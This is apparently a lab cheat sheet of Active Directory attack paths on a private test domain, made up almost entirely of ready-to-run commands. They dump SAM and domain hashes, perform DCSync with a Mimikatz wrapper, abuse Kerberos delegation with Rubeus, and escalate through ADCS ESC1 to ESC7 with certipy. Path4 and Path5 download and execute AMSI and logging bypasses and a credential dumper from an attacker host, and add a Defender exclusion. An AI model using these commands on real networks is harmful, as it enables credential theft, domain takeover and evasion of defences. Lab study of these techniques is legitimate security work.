

# A-Part1: Path 1 to 7

### Path1: Backup Administrators Group
```sh
reg.py corp.local/backupops:Password2@192.168.52.130 backup -o '\\192.168.52.129\share'
```
<br>
```powershell
runas.exe /netonly /user:corp.local\backupops cmd.exe
reg save \\WIN-4E30GDH8UQ6\HKLM\sam \\192.168.52.130\Helpdesk\sam.hive
reg save \\WIN-4E30GDH8UQ6\HKLM\system \\192.168.52.130\Helpdesk\system.hive
reg save \\WIN-4E30GDH8UQ6\HKLM\security \\192.168.52.130\Helpdesk\security.hive
```
<br>
```sh
secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
```
<br>


### Path2: WriteDACL abuse to DCSync
```powershell
Add-DomainObjectAcl -PrincipalIdentity helpdesk -Rights DCSync
###
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "helpdesk"}
```
<br>
```powershell
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:corp\krbtgt" "exit"'
```
<br>


### Path3: Computer Constrained delegation with protocol transition
```powershell
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::ekeys" "exit"'
Invoke-Mimi -Command '"token::elevate" "lsadump::sam" "exit"'
```

```powershell
C:\AD\Tools\Rubeus.exe s4u /user:pc01$ /aes256:44962d8aa4026aa5e13226cb01be532f517fcb02dead0328115ef0f202e77843 /msdsspn:http/WIN-4E30GDH8UQ6.corp.local /impersonateuser:Administrator /ptt

C:\AD\Tools\Rubeus.exe s4u /user:pc01$ /aes256:44962d8aa4026aa5e13226cb01be532f517fcb02dead0328115ef0f202e77843 /msdsspn:cifs/srv01.corp.local /impersonateuser:Administrator /altservice:http /ptt
```

### Path4: Credential Extraction 
```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess
iex (iwr http://192.168.52.1/sbloggingbypass.txt -UseBasicParsing)
iex (iwr http://192.168.52.1/amsibypass.txt -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://192.168.52.1/Invoke-MimiEx.ps1'))
```

### Path5: Computer Unconstrained Delegation
```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess

mkdir C:\Temp
powershell -c "Add-MpPreference -ExclusionPath C:\Temp"
curl -o C:\Temp\Loader.exe http://192.168.52.1/Loader.exe
```

```powershell
C:\AD\Tools\MS-RPRN.exe \\WIN-4E30GDH8UQ6.corp.local \\srv01.corp.local
```

```powershell
C:\Temp\Rubeus.exe monitor /targetuser:WIN-4E30GDH8UQ6$ /interval:5 /nowrap
```

### Path6: User Constrained Delegation with protocol transition
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:ldap_svc /password:Password3

C:\AD\Tools\Rubeus.exe s4u /user:ldap_svc /ticket: /msdsspn:http/WIN-4E30GDH8UQ6.corp.local /impersonateuser:Administrator /ptt
```
<br>
<br>


### Path7: User Unconstrained Delegation
```sh
dnstool.py -u 'corp.local\pparker' -p Password1 -r donotexist.corp.local -a add -t A -d 192.168.52.129 192.168.52.130

printerbug.py CORP/pparker:Password1@192.168.52.130 donotexist.corp.local
```
<br>
<br>

```sh
krbrelayx.py --krbsalt CORP.LOCALpparker --krbpass Password1 -dc-ip 192.168.52.130 
```
<br>

```sh
export KRB5CCNAME=/home/kali/labs/mylab/dc.ccache
secretsdump.py -no-pass -k WIN-4E30GDH8UQ6.corp.local -just-dc-user administrator -just-dc-ntlm
```
<br>


# B-Part2: Path 8 to 15 (ADCS )

### Path8: ESC1
```sh
certipy req -username csheldon@corp.local -password $pass -ca $CA -template DevelopmentCodeSigning  -upn administrator@corp.local -dc-ip $dc
```
<br>

### Path9: ESC2
```sh
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template esc2-A  -upn ballen@corp.local -dc-ip $dc
```
<br>

### Path10: ESC3
```sh
###csr1
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template ESC3-EA -dc-ip $dc
###csr2
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template ESC3-Users -on-behalf-of 'corp\itmanager' -pfx helpdesk.pfx -dc-ip $dc
```
<br>

### Path11: ESC2 and ESC3
```sh
###csr1
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template esc2-B -dc-ip $dc
###csr2
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template User -on-behalf-of 'corp\administrator' -pfx helpdesk.pfx -dc-ip $dc
```
<br>

### Path12: ESC4
```sh
### configure esc1
certipy template -username helpdesk@corp.local -password YourS3cret -template esc4 -save-old -dc-ip $dc
### esc1
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA  -template esc4 -upn administrator@corp.local -dc-ip $dc
```
<br>
```sh
certipy template -username helpdesk@corp.local -password YourS3cret -template esc4 -configuration esc4.json
```

### Path13: ESC7-A
<br>
```sh
certipy ca -ca $CA -add-officer csheldon -username csheldon@corp.local -password $pass -dc-ip $dc
```
<br>
<br>


### Path14: ESC7-B
```sh
###1
certipy req -username csheldon@corp.local -password $pass -ca $CA -template SubCA -upn administrator@corp.local -dc-ip $dc

###2
certipy ca -ca $CA -issue-request 55 -username csheldon@corp.local -password $pass -dc-ip $dc
```
<br>

```sh
certipy req -username csheldon@corp.local -password $pass -ca $CA -retrieve 55 -dc-ip $dc
```
<br>
